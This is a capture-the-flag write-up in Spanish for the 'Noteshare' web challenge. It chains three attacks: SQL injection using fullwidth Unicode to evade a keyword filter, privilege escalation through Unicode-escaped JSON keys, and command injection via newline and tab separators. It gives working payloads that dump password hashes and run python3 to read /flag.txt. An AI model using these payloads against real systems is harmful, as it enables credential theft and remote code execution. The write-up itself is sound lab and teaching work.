

Noteshare (WEB) - Snyk CTF

El reto se basó en una cadena de vulnerabilidades que permitió escalar desde un usuario sin privilegios hasta la ejecución remota de comandos en el servidor. Se facilitó el código fuente de la aplicación, compuesto principalmente por dos archivos:

Al revisar el archivo app.py, se identificaron funciones relevantes:
- Uso de SQLite como base de datos.
def get_db():
db = getattr(g, '_database', None)
if db is None:
db = g._database = sqlite3.connect(DATABASE)
db.row_factory = sqlite3.Row
return db
- Contraseñas almacenadas con MD5.
@app.route('/login', methods=['GET', 'POST'])
def login():
...
user = db.execute('SELECT * FROM users WHERE username = ? AND password = ?',
(username, hashlib.md5(password.encode()).hexdigest())).fetchone()
...
- Un filtro propio
filter_security_inputaplicado a las etiquetas (tags) al crearse una nueva nota en la ruta@app.route('/notes/create', methods=['POST'])
def filter_security_input(tags):
if not tags:
return tags
regex = re.compile(
r"^(?!.*['\";\-#=<>|&])"
r"(?!.*(/\*|\*/))"
r"(?!.*(union|select|insert|update|delete|drop|create|alter|exec|execute|where|from|join|order|group|having|limit|offset|into|values|set|table|database|column|index|view|trigger|procedure|function|declare|cast|convert|char|concat|substring|ascii|hex|unhex|sleep|benchmark|waitfor|delay|information_schema|sysobjects|syscolumns))"
r".+$",
re.IGNORECASE
)
if not regex.match(tags):
return None
normalized = unicodedata.normalize('NFKC', tags)
return normalized
- Rutas privilegiadas:
/settings/importy/admin/export.
Aplicación Web
Fue posible crear una cuenta nueva e iniciar sesión:

En el endpoint notes, se observa nuestro rol actual USER y un formulario en donde es posible crear una nota nueva agregando su respectivo tag (categoría):

Inyección SQL
Al revisar la ruta @app.route('/shared/<note_id>'), se observó que la aplicación construyó la consulta stats_query mediante interpolación de cadenas (f-string) incorporando directamente el valor de tags en el LIKE. Al no utilizar parámetros preparados, el campo tags se convirtió en un punto de entrada para inyección SQL.
if tags:
stats_query = f"SELECT action, COUNT(*) as count FROM logs WHERE metadata LIKE '%{tags}%' GROUP BY action"
try:
results = db.execute(stats_query).fetchall()
...
El filtro filter_security_input validó el texto original con un regex orientado a ASCII y únicamente después aplicó unicodedata.normalize('NFKC', tags). Por ello, fue posible enviar palabras clave SQL en caracteres fullwidth, que el regex no detectó, y que tras la normalización se convirtieron a ASCII ejecutable:
if not regex.match(tags): return None
normalized = unicodedata.normalize('NFKC', tags)
Para validar esta hipótesis se realizó una prueba de concepto utilizando el siguiente valor en el campo de tagdentro del formulario:
ｘ＇ ＵＮＩＯＮ ＳＥＬＥＣＴ １－－ －
Al visualizar la nota la respuesta fue:

Confirmada la inyección SQL por medio de esta técnica, se ajustó la carga útil para exfiltrar las credenciales almacenadas en la base de datos:
ｘ＇ ＵＮＩＯＮ ＳＥＬＥＣＴ （ＳＥＬＥＣＴ ｇｒｏｕｐ＿ｃｏｎｃａｔ（ｕｓｅｒｎａｍｅ｜｜＇：＇｜｜ｐａｓｓｗｏｒｄ） ＦＲＯＭ ｕｓｅｒｓ）， ２－－ －
Tras la normalización, la consulta devolvió los pares usuario:hash de la base de datos:

El hash MD5 para el usuario administrador no pudo ser crackeado, sin embargo para el usuario editor se encontró la siguiente contraseña:

Escalada de privilegios
Una vez iniciada la sesión con la cuenta editor, se habilitó una nueva función de configuración en el sistema, en donde se permitía subir un JSON de configuración.

En settings_import, la aplicación implementó un control basado en lista negra que buscaba cadenas como role en el contenido crudo del archivo antes de deserializarlo con json.loads.
content = file.read().decode('utf-8')
dangerous_patterns = ['__class__', '__globals__', '__builtins__', '__init__',
'__dict__', 'role', 'user_id', 'username']
for pattern in dangerous_patterns:
if pattern in content.lower():
raise ValueError(f'Potentially dangerous configuration detected: {pattern}')
config_data = json.loads(content)
Esto permitió crear y cargar un archivo config.json con el siguiente contenido con el objetivo de evadir la detección representando la clave role mediante escapes Unicode en el JSON:
{
"\u0072\u006f\u006c\u0065": "admin"
}
Tras json.loads, la clave se decodificó a role y fue asignada directamente a la sesión a través de session[key] = value, provocando la elevación de privilegios.
elif isinstance(value, (str, int, float, bool, list, type(None))):
session[key] = value

En esta nueva sección podemos exportar los logs de las acciones de los distintos usuarios pudiendo indicar el nombre y el formato de salida del archivo:

En /admin/export, el valor filename se incorporó en la variable filepath y posteriormente se ejecutó en un comando de shell mediante os.system.
filepath = f"{export_dir}/{safe_filename}"
...
os.system(f"cat {temp.name} > {filepath} && chmod 644 {filepath}")
Aunque existía una lista negra de caracteres, ésta no contempló separadores de comando alternativos como el salto de línea (\n) y/o tabuladores (\t).
blacklist = [';', '|', '&', '`', '$', ' ', ',', '{', '}']
for char in blacklist:
if char in filename or char in format_type:
return ...
Flag
Para evitar depender de una reverse shell, se utilizó la propia base de datos como canal de exfiltración. Para este caso en particular, se adaptó un script Python para leer el archivo flag.txt y guardar su contenido en la tabla logs de la base de datos.
Con ayuda de BurpSuite se modificó el cuerpo POST de la petición para ejecutar lo siguiente:
filename=test%0Apython3%09-c%09%27import%09sqlite3%0Ad%3Dopen%28%22%2Fflag.txt%22%29.read%28%29%0Ac%3Dsqlite3.connect%28%22database.db%22%29%0Ax%3Dc.cursor%28%29%0Ax.execute%28%22INSERT%09INTO%09logs%28metadata%29VALUES%28%5C%22%22%2Bd%2B%22%5C%22%29%22%29%0Ac.commit%28%29%27&format=log
Finalmente, se reutilizó el mismo vector de SQLi inicial y se contruyo una consulta para extraer el contenido de la tabla logs utilizando la técnica de evasión fullwidth de la forma:
ｘ＇ ＵＮＩＯＮ ＳＥＬＥＣＴ （ＳＥＬＥＣＴ ｇｒｏｕｐ＿ｃｏｎｃａｔ（ｍｅｔａｄａｔａ） ＦＲＯＭ ｌｏｇｓ）， ２－－ －
La respuesta del servidor mostró, dentro de la concatenación de metadata de logs, el contenido de flag.txt: